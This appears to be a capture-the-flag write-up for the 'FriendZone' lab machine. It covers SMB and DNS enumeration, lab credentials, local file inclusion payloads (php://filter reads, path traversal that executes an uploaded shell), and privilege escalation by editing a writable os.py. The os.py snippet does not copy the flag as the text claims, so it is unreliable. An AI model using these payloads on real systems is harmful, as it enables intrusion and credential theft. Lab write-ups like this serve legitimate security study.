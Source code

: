 # FRIENDZONE

10.10.10.123

# USER

gobuster
```
/wordpress
/images
/upload
/timestamp
```

SMB enumeration
```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Files           Disk      FriendZone Samba Server Files /etc/Files
	general         Disk      FriendZone Samba Server Files
	Development     Disk      FriendZone Samba Server Files
	IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            FROLIC

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

Command below gets to user directory
```
smbclient \\\\10.10.10.123\\general\\
```

Gives us the listing of a file containing
```
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Querying the DNS server gives us:

```
PORT   STATE SERVICE
53/udp open  domain
| dns-cache-snoop: 1 of 1 tested domains are cached.
|_friendzone.red
```

Using dnsrecon provides us with more information
https://github.com/darkoperator/dnsrecon.git

```
[*] Performing host and subdomain brute force against friendzone.red
[*] 	 A hr.friendzone.red 127.0.0.1
[*] 	 A uploads.friendzone.red 127.0.0.1
```

Using dig to query zone transfers

```
dig axfr friendzone.red @10.10.10.123
```

Outputs:
```
 axfr friendzone.red @10.10.10.123
	;; global options: +cmd
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzone.red.         604800  IN      AAAA    ::1
	friendzone.red.         604800  IN      NS      localhost.
	friendzone.red.         604800  IN      A       127.0.0.1
	administrator1.friendzone.red. 604800 IN A      127.0.0.1
	hr.friendzone.red.      604800  IN      A       127.0.0.1
	uploads.friendzone.red. 604800  IN      A       127.0.0.1
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 83 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123)
	;; WHEN: Thu Mar 07 16:29:10 UTC 2019
	;; XFR size: 8 records (messages 1, bytes 289)


 axfr friendzoneportal.red @10.10.10.123
	;; global options: +cmd
	friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzoneportal.red.   604800  IN      AAAA    ::1
	friendzoneportal.red.   604800  IN      NS      localhost.
	friendzoneportal.red.   604800  IN      A       127.0.0.1
	admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
	files.friendzoneportal.red. 604800 IN   A       127.0.0.1
	imports.friendzoneportal.red. 604800 IN A       127.0.0.1
	vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
	friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 83 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123)
	;; WHEN: Thu Mar 07 16:37:37 UTC 2019
	;; XFR size: 9 records (messages 1, bytes 309)
```

By adding 10.10.10.123 to hosts file with administrator1.friendzone.red it allows us to virutal host resolve
us to an admin page

```
https://administrator1.friendzone.red
https://uploads.friendzone.red
```

Virutal host routing allows us to use the value below as the host parameter for the https server to give us a secret login box

```
3
```

It logs us into a basic site with some sort of params that run command?


Localfile inclusion allows the reading of php files
```
?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=timestamp
?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=https://uploads.friendzone.re
upload.php
```

Way to read php code of websitess
```
pagename=php://filter/read=convert.base64-encode/resource=X
```

Uploading a reverse shell to the SMB share allows us to execute by runing:
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../../../../etc/Development/shell
```

This provides us with a shell and the user.txt.

# ROOT

Creds found in a sql_data.conf

```
friend
Agpyu12!0.213$
```

Found this python file in the /opt/ directory??

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

From further enum it can be seen that we can edit this python library
```
/usr/lib/python2.7/os.py
```

This is imported in the previous script. Therefore, anything places is ```os.py``` will be executed by the script

Exploit added:
```python
# <HACK>
flag = "" 
with open("/root/root.txt", "r") as file:
        data = file.read() 
        
with open("/tmp/" + flag, "w+") as file:
        file.write("hello") 
# </HACK>
```

This copies the root file and gives us it in the temp. This could be expanded for root shell by running a 
reverse shell
